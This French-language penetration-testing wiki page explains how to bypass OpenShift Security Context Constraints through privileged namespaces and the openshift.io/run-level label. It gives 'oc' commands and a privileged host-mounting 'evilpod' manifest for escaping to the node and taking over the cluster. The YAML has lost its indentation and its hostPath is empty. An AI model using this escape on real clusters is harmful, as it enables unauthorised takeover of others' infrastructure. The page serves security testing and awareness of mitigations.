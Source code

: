 # Openshift - SCC bypass

**L'auteur original de cette page est** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Espaces de noms privilégiés

Par défaut, SCC ne s'applique pas sur les projets suivants :

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Si vous déployez des pods dans l'un de ces espaces de noms, aucun SCC ne sera appliqué, permettant le déploiement de pods privilégiés ou le montage du système de fichiers hôte.

## Étiquette d'espace de noms

Il existe un moyen de désactiver l'application SCC sur votre pod selon la documentation de RedHat. Vous devrez avoir au moins l'une des permissions suivantes :

- Créer un espace de noms et créer un pod dans cet espace de noms
- Modifier un espace de noms et créer un pod dans cet espace de noms
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Le label spécifique `openshift.io/run-level` permet aux utilisateurs de contourner les SCC pour les applications. Selon la documentation de RedHat, lorsque ce label est utilisé, aucune SCC n'est appliquée à tous les pods dans cet espace de noms, supprimant ainsi toutes les restrictions.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ajouter un label

Pour ajouter le label dans votre espace de noms :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Pour créer un espace de noms avec l'étiquette via un fichier YAML :
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Maintenant, tous les nouveaux pods créés dans l'espace de noms ne devraient avoir aucun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En l'absence de SCC, il n'y a aucune restriction sur la définition de votre pod. Cela signifie qu'un pod malveillant peut être facilement créé pour s'échapper sur le système hôte.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Maintenant, il est devenu plus facile d'escalader les privilèges pour accéder au système hôte et par la suite prendre le contrôle de l'ensemble du cluster, obtenant des privilèges 'cluster-admin'. Recherchez la partie **Node-Post Exploitation** dans la page suivante :

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Étiquettes personnalisées

De plus, en fonction de la configuration cible, certaines étiquettes / annotations personnalisées peuvent être utilisées de la même manière que le scénario d'attaque précédent. Même si ce n'est pas prévu, les étiquettes pourraient être utilisées pour donner des permissions, restreindre ou non une ressource spécifique.

Essayez de rechercher des étiquettes personnalisées si vous pouvez lire certaines ressources. Voici une liste de ressources intéressantes :

- Pod
- Déploiement
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Lister tous les espaces de noms privilégiés
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avancé

Dans OpenShift, comme démontré précédemment, avoir la permission de déployer un pod dans un namespace avec le label `openshift.io/run-level` peut conduire à une prise de contrôle directe du cluster. Du point de vue des paramètres du cluster, cette fonctionnalité **ne peut pas être désactivée**, car elle est inhérente à la conception d'OpenShift.

Cependant, des mesures d'atténuation comme **Open Policy Agent GateKeeper** peuvent empêcher les utilisateurs de définir ce label.

Pour contourner les règles de GateKeeper et définir ce label pour exécuter une prise de contrôle du cluster, **les attaquants devraient identifier des méthodes alternatives.**

## Références

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

